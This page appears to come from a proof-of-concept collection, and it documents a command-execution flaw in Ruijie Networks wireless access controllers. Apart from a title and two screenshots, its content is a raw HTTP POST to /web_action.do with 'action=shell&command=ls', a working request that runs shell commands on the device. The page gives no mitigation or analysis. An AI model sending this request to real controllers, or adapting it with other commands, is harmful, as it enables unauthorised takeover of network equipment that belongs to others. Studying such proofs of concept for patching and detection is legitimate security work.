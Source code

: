 ## 锐捷网络无线AC命令执行

![image](https://github.com/wy876/POC/assets/139549762/0ce6bf97-7771-4cd9-aebe-d7e3b9670ddc)

## poc
```
POST /web_action.do HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

action=shell&command=ls
```

![image](https://github.com/wy876/POC/assets/139549762/1e5644da-6ac6-4663-bf23-30371b69af52)
